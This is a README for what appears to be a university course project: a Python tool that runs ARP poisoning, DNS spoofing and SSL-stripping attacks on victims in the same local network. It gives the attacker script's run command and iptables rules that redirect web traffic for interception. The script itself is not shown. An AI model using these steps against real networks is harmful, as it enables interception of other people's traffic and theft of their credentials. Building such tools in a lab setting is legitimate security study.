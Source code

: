 # 2IC80-Default-Project

This is a simple command-line tool to run ARP poisoning, DNS spoofing, and SSL stripping attacks for victims in the same network as the attacker, written in Python.

## Prerequisites
1. Linux Operating system
2. Python (preferable version 3.6.5)
3. Helping libraries installed

## Steps to run
```
sudo python attacker.py -i enp0s8 -v 10.0.2.4 -s 10.0.2.1 -d my.org -f 10.0.2.3
```

### Other commands

Create port redirection
```
sudo iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
```

Delete port redirection
```
sudo iptables -t nat -D PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
```

See the active ip tables
```
sudo iptables -t nat -L PREROUTING
```

Note: Check scripts for setting proper ips. The victims browser needs to have clear cookies and history (check privacy settings).
